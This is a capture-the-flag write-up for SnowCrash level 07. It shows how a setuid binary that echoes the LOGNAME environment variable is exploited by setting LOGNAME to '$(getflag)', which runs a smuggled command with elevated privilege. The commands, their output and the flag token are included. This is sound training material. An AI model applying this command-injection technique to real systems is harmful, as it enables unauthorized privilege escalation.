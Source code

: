 # Level 07

## Vulnerability
Privilege escalation via environment variables

## Context

```
level07@SnowCrash:~$  ls -l 
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

## Solution

Let's see what's in the level07 executable file. 
```
level07@SnowCrash:~$ strings level07
[...]
LOGNAME
/bin/echo %s
```
What  is [LOGNAME](https://unix.stackexchange.com/questions/268378/difference-between-logname-and-logname)? It's "an env variable that contains the user that executes the current shell process." There's also a call to echo here, 
Let's confirm who LOGNAME is, and see if we can change it. 
```
level07@SnowCrash:~$ echo $LOGNAME
level07
level07@SnowCrash:~$ LOGNAME=$"Harry Potter"
level07@SnowCrash:~$ echo $LOGNAME
Harry Potter
```
Hmm... Perhaps we can exploit LOGNAME to launch getflag. 
```
level07@SnowCrash:~$ LOGNAME=$\(getflag\)
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
Success!

